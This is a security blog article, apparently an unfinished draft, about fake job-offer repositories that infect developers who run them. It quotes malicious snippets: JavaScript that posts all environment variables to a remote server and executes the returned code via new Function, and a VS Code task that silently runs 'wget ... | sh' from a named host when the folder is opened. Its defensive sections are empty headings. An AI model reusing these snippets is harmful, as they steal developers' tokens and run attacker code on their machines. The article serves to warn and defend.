

## Introduction {#introduction}

You may have already encountered this scam. Somebody contacts you, typically though [LinkedIn](https://www.linkedin.com/), with a programming job offer that is good, but not too good to be true. A salary a bit above normal, remote work, etc. They might claim to come from a legitimate company, or their bio links to a web site that was generated by AI and looks good.

At some point, they ask you to download a repository and run it. Maybe they want to test your software development skills. Maybe they want to show you what they are working on. *Run it on your main computer, and they can steal your private key, insert themselves into your legitimate software repository, etc*. This scam is successful because it pretends to be something all of us legitimately want at some point in our career, and testing candidates and showing your source code are common in our industry.

In this article we will discuss some of the tricks they use, as well as some defense mechanisms that would let you distinguish between legitimate repositories and malware.

## Some of their tricks {#some-tricks}

### Remote execution {#remote-execution}

This trick is extremey simple. The repository is in JavaScript or TypeScript, and includes code similar to this:

```js
async function validateApiKey() {
  verify(setApiKey(process.env.AUTH_API))
    .then((response) => {
      const executor = new Function("require", response.data);
      executor(require);
      console.log("API Key verified successfully.");
      return true;
    })
    .catch((err) => {
      console.log("API Key verification failed:", err);
      return false;
    });
}
```

We don't know what `verify` does at this point, but we can't be sure that we can trust it. If it is successful, it sets `response`.

Next this function creates [a new `Function` object](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function).`Function` objects are used to execute JavaScript created dynamically. For example, this code snippet creates and then executes a function that adds one to a value. You can run it in the [Node.js CLI](https://www.w3schools.com/nodejs/nodejs_command_line.asp) to see it in action.

```js
code = "return a+1"
addOne = new Function("a", code)
addOne(10)
```

Passing the [`require`](https://www.w3schools.com/nodejs/nodejs_modules.asp) function as a parameter makes it easy for the function written in `response.data` to import libraries, such as [`fs`](http://nodejs.org/api/fs.html) which lets an attacker read and modify files on your computer.

We can trace the flow further to see if `response.data` really does come from a dangerous source, but this is enough to show that the program is *not safe*.

### Sending your environment variables {#env-vars}

The same repository includes this function:

```js
const verify = (api) =>
  axios.post(api, { ...process.env }, {
    headers: { "x-app-request": "ip-check" }
  });
```

The variables [`process.env`](https://nodejs.org/api/environment_variables.html#processenv) includes all your environment variables, which may include authentication tokens. [`axios`](https://www.npmjs.com/package/axios) is a library used for HTTP(S) requests, so the program very "nicely" shares your environment with a remote server. 

### Editor tasks {#editor-tasks}

Many of us use [Microsoft Visual Studio](https://visualstudio.microsoft.com/). It's a good editor. However, if your security setting are not configured properly, it helps you by running automatically tasks in `.vscode/tasks.json`. Here are some of those tasks from known malware repositories.

```json
{
  "label": "install-root-modules",
  "type": "shell",
  "command": "npm install --silent --no-progress",
  "options": {
    "cwd": "${workspaceFolder}"
  },
  "windows": {
    "options": {
      "shell": {
        "executable": "cmd.exe",
        "args": ["/c"]
      }
    }
  },
.
.
.
  "runOptions": {
    "runOn": "folderOpen"
  },
  "presentation": {
    "reveal": "silent",
    "echo": false,
    "focus": false,
    "panel": "new",
    "showReuseMessage": false,
    "clear": true
  }
},
```      

This JSON code tells the editor to automatically install the NPM packages in `package.json` when you open the folder. This *may* be legitimate, you need those packages to run the program, but does it silently as here is suspicious. Maybe some of these packages are dangerous.

Here is another task from the same place:

```json
{
  "label": "env",
  "type": "shell",
  "linux": {
  <a bunch of tabs> "command": "wget -qO- 'https://json-setting511.vercel.app/api/settings/linux' | sh"
  },
  .
  .
  .
  "problemMatcher": [],
  "presentation": {
    "reveal": "silent",
    "echo": false,
    "focus": false,
    "close": true,
    "panel": "new",
    "showReuseMessage": false,
    "clear": true
  },
  "runOptions": {
    "runOn": "folderOpen"
  }
}      
```

This is another remote execution task, which reads `https://json-setting511.vercel.app/api/settings/linux` and then executes it, again silently.

Another interesting trick used here is that the definition "command" is preceeded with a lot of white space (tabs or spaces). This means that on some editors, such as [`nano`](https://www.nano-editor.org/) running in the default configuration, it is hard to see. 



### Hiding in configuration files {#hide-in-config}

## Defending yourself {#self-defense}

### AI for the rescue {#ai-rescue}

### Sandbox {#sandbox}

### Subdirectories {#subdirectories}

So the `.vscode` won't execute.

## Conclusion
